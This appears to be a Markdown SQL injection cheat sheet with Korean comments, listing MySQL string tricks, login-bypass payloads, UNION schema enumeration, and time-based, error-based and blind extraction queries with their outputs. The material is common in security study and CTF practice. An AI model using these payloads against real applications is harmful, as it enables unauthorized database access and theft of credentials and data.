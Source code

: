 # SQL injection

### Express string   
select admin;   
select 'ad''min'; -> ad'min   
select 'ad' 'min'; -> admin   
select 0x6162; -> ab   
select char(0x61, 0x62); -> ab   
select 0b110000101100010; -> ab   
select concat(char(0x61),char(0x62)); -> ab   
select mid(@@version,12,1); -> n 가젯   
select unhex(unhex(36313632)); -> ab   
<hr>

### Useful Functions
* string   
  * substring(), substr(), mid() # select mid('admin',3,2); -> mi   
  * left() # select left('admin',2); -> ad
  * right() # select right('admin',2); -> in
  * concat() # select concat('ad','min'); -> admin
  * group_concat() # select group_concat('ad','min'); -> admin
  * instr() # select instr('hi\~\~! hello!!!','hello'); -> 7
  * length() # select length('hello!'); -> 6
  * lpad() # select lpad('admin',1,1)='a'; -> TRUE
  * rpad() # select rpad('admin',1,1)='a'; -> True
  * ord() # select ord('a'); -> 97
  * ascii() # select ascii('a'); -> 97
  * hex() # select hex('a'); -> 0x61
  * char() # select char(0x61); -> a
* typecast
  * convert() # select convert('admin',binary(1)); -> a
  * cast() # select cast('admin' as char(1)); -> a
* etc
  * version() # select version(); -> 5.7.31-0ubuntu0.16.04.1 
  * user() # select user(); -> user@localhost
  * schema(), database() #select schema(); -> database_name
  * sleep() # select sleep(3); -> 1 row in set (3.00 sec)
<hr>

### Basic SQL Injection
'   
' or '1==1'#   
' or '1'='1   
' or 1=1#
<hr>

### Union SQL Injection
union select schema_name from information_schema.schemata;   
union select table_name from information_schema.tables where table_schema="db_schema";   
union select table_name from information_schema.tables where table_schema=database();   
union select column_name from information_schema.columns where table_name="table_name";
<hr>

### Time-based SQL Injection
select 'a'='a' and sleep(1); # 1 row in set (1.00 sec)   
select 'a'='b' and sleep(1); # 1 row in set (0.00 sec)   
select 'a'='a' and benchmark(10000000,md5('a')); // 1 row in set (3.017 sec)   
select 'a'='b' and benchmark(10000000,md5('a')); // 1 row in set (1.565 sec)   
<hr>

### Error-based : Data extraction with error message
select * from users union select foo(); # FUNCTION test.foo does not exist   
select * from users where exp(\~id); # DOUBLE value is out of range in 'exp(\~\`test\`.\`users\`.\`id\`)'   
select * from users where extractvalue(1,concat(0x3a,version())); #XPATH systax error: '10.4.6-MariaDB'   
<hr>

### Error-based : Blind SQL Injection
서브 쿼리에서 2개 이상의 row를 리턴하면 에러가 발생하는 점을 이용해서 공격   
select if('a'='b',1,(select 1 union select 2)); # error -> Subquery returns more than 1 row
select if('a'='a',1,(select 1 union select 2)); ok   
select case when 1=1 then (select 1 union select 2) else 1 end; # error   
select case when 1=0 then (select 1 union select 2) else 1 end; # ok   

BIGINT overflow   
select ~0+(select 'a'='a'); # error -> ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '~0 + ('a' = 'a')'   
select ~0+(select 'a'='b'); # ok   

cot함수 인자로 False가 들어가면 에러가 발생하는 것을 이용해서 공격
select cot(1=0); # error (DOUBLE value is out of range in 'cot(1 = 0)')   
select cot(1=1); # ok   

order by 뒤에 숫자 늘리면서 에러로 컬럼 수 파악   
select * from users order by \[컬럼 개수\]; # 컬럼 개수 늘려가면서 에러로 개수 파악.  
select * from users order by 1; # ok   
select * from users order by 2; # ok   
select * from users order by 3; # error -> users 테이블의 컬럼 개수는 2개인 것   
<hr>

### Blind SQL Injection
Binary Search   
select * from users where username='admin' and ascii(substr(password,1,1))>79;   
Bit 연산   
select * from users where username='admin' and substr(bin(ord(password)),1,1)=1;   
select * form users where username='admin' and substr(bin(ord(password)),2,1)=1;   
<hr>

### Filter Bypass
[Filter Bypass](https://github.com/zzsla/security/blob/main/cheat_sheet/SQL%20injection/Filter%20Bypass.md)
